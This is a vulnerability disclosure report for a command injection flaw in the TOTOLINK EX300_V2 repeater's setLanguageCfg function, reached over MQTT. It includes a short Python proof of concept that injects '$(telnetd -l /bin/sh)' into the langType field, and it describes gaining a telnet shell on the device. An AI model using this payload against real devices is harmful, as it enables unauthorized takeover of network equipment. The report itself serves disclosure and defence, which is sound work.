 # Information

**Vendor of the products:**    TOTOLINK

**Vendor's website:**    [http://www.totolink.cn](http://www.totolink.cn "http://www.totolink.cn")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    [TOTOLINK EX300_V2](http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55 "http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55")

**Affected firmware version:**  V4.0.3c.7484

**Firmware download address:**  [http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip](http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip "http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip")

# Overview

`TOTOLINK EX300_V2 V4.0.3c.7484` has a command injection vulnerability detected at function `setLanguageCfg`. Attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# Show the product

`TOTOLINK EX300_V2` is a Wi-Fi repeater made in China.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/0.jpg)

# Vulnerability details

The vulnerability is detected at `/bin/cste_modules/global.so`.

In the function `setLanguageCfg`, the content obtained by program through parameter `langType` given by `MQTT` data packet is passed to variable `Var`. Then, the variable `Var` is formatted into `v9` through the function `sprintf` without any check. Finally, `v9` is passed as an argument to the function `CsteSystem` which can execute system commands.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/1.jpg)

Above all, attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# POC

```python
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.254", 1883, 60)
client.publish("totolink/router/setLanguageCfg", '{"langType": "$(telnetd -l /bin/sh)"}')
```

# Get shell

At first, we run the above script to exploit the vulnerability.

Then, we scan ports again and dectect that the port `23` which represents `Telnet service` has been opened.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/2.jpg)

Finally, we telnet into the Wi-Fi repeater through port `23` and control it successfully.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/3.jpg)
